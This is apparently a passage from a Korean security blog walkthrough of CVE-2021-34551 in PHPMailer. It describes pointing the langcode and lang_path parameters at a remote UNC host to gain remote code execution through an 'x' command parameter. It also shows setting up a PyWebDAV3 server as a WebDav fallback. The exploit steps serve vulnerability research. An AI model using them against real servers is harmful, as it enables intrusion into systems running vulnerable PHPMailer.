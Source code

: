 클라이언트에서 PHPMailer가 설치된 서버로 접근하고, `langcode` 와 `lang_path` 파라미터를 위와 같이 설정해주면 `192.168.199.133` 원격 주소지의 `Test` 폴더를 기준으로 파일을 접근할 수 있게 됩니다.

마지막으로 `x` 파라미터에 명령어를 입력해주면 서버 측에서 동작하는 RFI 취약점을 발생시키면서 RCE가 가능해집니다.

## (2021. 07. 22 추가) WebDav via UNC Path

---

UNC는 기본적으로 SMB 프로토콜을 사용합니다. 하지만 SMB 프로토콜을 통해 접근하는 것이 실패할 시, HTTP 대신 WebDav를 통해 요청을 시도합니다.

### WebDav 서버 설정

---

```bash
➜  CVE-2021-34551 virtualenv webdav
created virtual environment CPython3.8.2.final.0-64 in 450ms
  creator CPython3Posix(dest=/root/raon/CVE-2021-34551/webdav, clear=False, no_vcs_ignore=False, global=False)
  seeder FromAppData(download=False, pip=bundle, setuptools=bundle, wheel=bundle, via=copy, app_data_dir=/root/.local/share/virtualenv)
    added seed packages: pip==21.1.3, setuptools==57.1.0, wheel==0.36.2
  activators BashActivator,CShellActivator,FishActivator,PowerShellActivator,PythonActivator,XonshActivator
➜  CVE-2021-34551 cd webdav        
➜  webdav source bin/activate 
(webdav) ➜  webdav
```

python 패키지 중 하나인 `virtualenv`를 사용하여 webdav venv를 생성하였습니다.

```bash
➜  webdav source bin/activate 
(webdav) ➜  webdav pip install PyWebDAV3
Collecting PyWebDAV3
  Using cached PyWebDAV3-0.9.14-py3-none-any.whl (45 kB)
Collecting six
  Using cached six-1.16.0-py2.py3-none-any.whl (11 kB)
Installing collected packages: six, PyWebDAV3
Successfully installed PyWebDAV3-0.9.14 six-1.16.0
```

pip를 사용하여 `PyWebDAV3` 패키지를 설치해줍니다.

```bash
(webdav) ➜  webdav davserver --help                   
PyWebDAV server (version 0.9.14)
Standalone WebDAV server

Make sure to activate LOCK, UNLOCK using parameter -J if you want
to use clients like Windows Explorer or Mac OS X Finder that expect
LOCK working for write support.

Usage: ./server.py [OPTIONS]
Parameters:
    -c, --config    Specify a file where configuration is specified. In this
                    file you can specify options for a running server.
                    For an example look at the config.ini in this directory.
    -D, --directory Directory where to serve data from
                    The user that runs this server must have permissions
                    on that directory. NEVER run as root!
                    Default directory is /tmp
    -B, --baseurl   Behind a proxy pywebdav needs to generate other URIs for PROPFIND.
                    If you are experiencing problems with links or such when behind
                    a proxy then just set this to a sensible default (e.g. http://dav.domain.com).
                    Make sure that you include the protocol.
```